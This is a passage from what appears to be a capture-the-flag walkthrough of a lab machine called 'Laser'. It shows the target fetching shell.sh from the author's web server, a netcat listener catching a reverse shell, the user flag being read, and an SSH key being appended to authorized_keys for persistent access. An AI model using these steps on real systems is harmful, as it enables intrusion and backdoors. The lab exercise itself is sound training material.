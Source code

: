 On the first print, I see a hit on the webserver:

```
10.10.10.201 - - [13/Sep/2020 07:03:00] "GET /shell.sh HTTP/1.1" 200 -

```

And then before the third print, I get a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.201.
Ncat: Connection from 10.10.10.201:48190.
bash: cannot set terminal process group (1099): Inappropriate ioctl for device
bash: no job control in this shell
solr@laser:/opt/solr/server$ 

```

I can now grab `user.txt`:

```

solr@laser:/home/solr$ cat user.txt
77d392f1************************

```

#### Upgrade

To get a better shell, I wrote my SSH key into `/var/solr/.ssh/authorized_keys`:

```

solr@laser:~$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /var/solr/.ssh/authorized_keys

```

And then connected over SSH:

```

root@kali# ssh -i ~/keys/ed25519_gen solr@10.10.10.201
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 13 Sep 2020 03:43:15 PM UTC

  System load:                      0.03
  Usage of /:                       42.3% of 19.56GB
  Memory usage:                     57%
  Swap usage:                       0%
  Processes:                        233
  Users logged in:                  0
  IPv4 address for br-3ae8661b394c: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.201
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:563c
 * Are you ready for Kubernetes 1.19? It's nearly here! Try RC3 with
   sudo snap install microk8s --channel=1.19/candidate --classic

   https://www.microk8s.io/ has docs and details.
```